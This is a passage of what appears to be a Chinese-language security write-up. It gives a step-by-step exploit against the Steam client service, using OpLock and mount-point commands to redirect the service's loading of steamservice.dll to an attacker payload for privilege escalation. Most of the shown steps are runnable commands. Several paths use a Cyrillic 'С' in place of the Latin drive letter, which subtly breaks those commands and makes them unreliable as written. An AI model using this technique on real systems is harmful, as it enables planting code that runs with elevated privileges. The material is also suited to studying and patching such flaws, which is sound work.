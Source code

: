 5）在cmd2中设置OpLock：

```
SetOpLock.exe C:\Steam\b2\steamservice.dll
```

6）在cmd1中释放OpLock。在cmd2中我们可以捕捉到对该文件的访问。

7）删除`C:\Steam\bin`，在原位置创建`C:\Steam\bin`，在cmd1中执行如下命令：

```
CreateMountPoint.exe С:\Steam\bin C:\Steam\b3
```

8）在cmd1中设置OpLock：

```
SetOpLock.exe C:\Steam\b3\steamservice.dll
```

9）在cmd2中释放OpLock。可以在cmd1中捕捉到对该文件的访问。

10）删除`C:\Steam\bin`，在原位置创建`C:\Steam\bin`，然后在cmd2中执行如下命令：

```
CreateMountPoint.exe С:\Steam\bin C:\Steam\b2
```

11）在cmd2中设置OpLock：

```
SetOpLock.exe C:\Steam\b2\steamservice.dll
```

12）在cmd1中释放OpLock。可以在cmd2中捕捉到对该文件的访问。

13）删除`C:\Steam\bin`，在原位置创建`C:\Steam\bin`，然后在cmd1中执行如下命令：

```
CreateMountPoint.exe С:\Steam\bin C:\Steam\b3
```

14）在cmd1中设置OpLock：

```
SetOpLock.exe C:\Steam\b3\steamservice.dll
```

15）在cmd2中释放OpLock。在cmd1中可以捕获到对该文件的访问。

16）删除`C:\Steam\bin`，在原位置创建`C:\Steam\bin`，然后在cmd2中执行如下命令：

```
CreateMountPoint.exe С:\Steam\bin C:\Steam\b4
```

17）在cmd1中释放OpLock。

虽然整个过程看起来比较复杂，但核心思想其实很简单：我们要将目标服务对`C:\Steam\bin\steamservice.dll`的前5次访问（总共6次）重定向到不同的目录中（访问顺序分别为：`b1`、`b2`、`b3`、`b2`、`b3`），在第6次访问时重定向到我们自己的payload。

流程图如下所示：

[![](https://p0.ssl.qhimg.com/t0137a4833224ebd9d6.png)](https://p0.ssl.qhimg.com/t0137a4833224ebd9d6.png)
